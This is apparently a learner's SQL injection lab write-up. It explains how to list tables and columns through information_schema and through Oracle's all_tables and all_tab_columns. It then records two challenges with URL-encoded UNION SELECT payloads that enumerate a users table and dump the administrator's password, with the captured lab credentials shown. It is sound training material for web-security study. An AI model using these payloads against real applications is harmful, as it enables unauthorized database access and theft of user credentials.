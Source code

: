 ```yaml
---
tags: ["information gathering", "sqli"]
---
```


==> Most database types (with the notable exception of Oracle) have a set of views called the information schema which provide information about the database.

-->You can query information_schema.tables to list the tables in the database:

SELECT \* FROM information_schema.tables

This returns output like the following:

```sql
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE
================================================
MyDatabase    dbo          Products   BASE TABLE
MyDatabase    dbo          Users      BASE TABLE
MyDatabase    dbo          Feedback   BASE TABLE
________________________________________________
```

This output indicates that there are three tables, called Products, Users, and Feedback.

You can then query information_schema.columns to list the columns in individual tables:

SELECT \* FROM information_schema.columns WHERE table_name = 'Users'

This returns output like the following:

```sql

TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE
=================================================================
MyDatabase    dbo          Users      UserId      int
MyDatabase    dbo          Users      Username    varchar
MyDatabase    dbo          Users      Password    varchar
```

This output shows the columns in the specified table and the data type of each column.

================================================================

## challenge

-> first check the number of tables using : `'+UNION+SELECT+"abc","def"-`-
-> after that check the table names using this payload : `'+UNION+SELECT+table_name, NULL+FROM+information_schema.tables--`
-> see the number of the columns using command : `'+UNION+SELECT+column_name, NULL+FROM+information_schema.columns+WHERE+table_name="users_zlvypg"--`

-> found 2 columns : 1)username_fuoiaa 2)password_jwsqrn
-> let's see the content of the tables : `'+UNION+SELECT+username_fuoiaa,password_jwsqrn+FROM+users_zlvypg--`

-> found the administrator password:

```bash
administrator:ffgwc2jemb2hq113pi87
```

## Equivalent to information schema on Oracle

--> On Oracle, you can obtain the same information with slightly different queries.

You can list tables by querying all_tables:

SELECT \* FROM all_tables

And you can list columns by querying all_tab_columns:

SELECT \* FROM all_tab_columns WHERE table_name = 'USERS'

## Challenge

-> In oracle,there is a table called `dual` so we can use it for finding the number of columns

-> first of all find the number of columns : `'+UNION+SELECT+'abc','def'+FROM+dual--`
-> we got response so Let's use this payload : `'+UNION+SELECT+table_name,NULL+FROM+all_tables--`

-> found one table : `USERS_WYZASZ`
-> Let's read the data of that table : `'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_WYZASZ'--`

-> got 2 tables : 1)PASSWORD_BIASBO 2)USERNAME_HMHMIU
-> Let's read the content of this 2 columns : `'+UNION+SELECT+PASSWORD_BIASBO,USERNAME_HMHMIU+FROM+USERS_WYZASZ--`

-> got the password of administrator :

```bash
administrator:gjqdv2xrnw5kynwhizpo
```
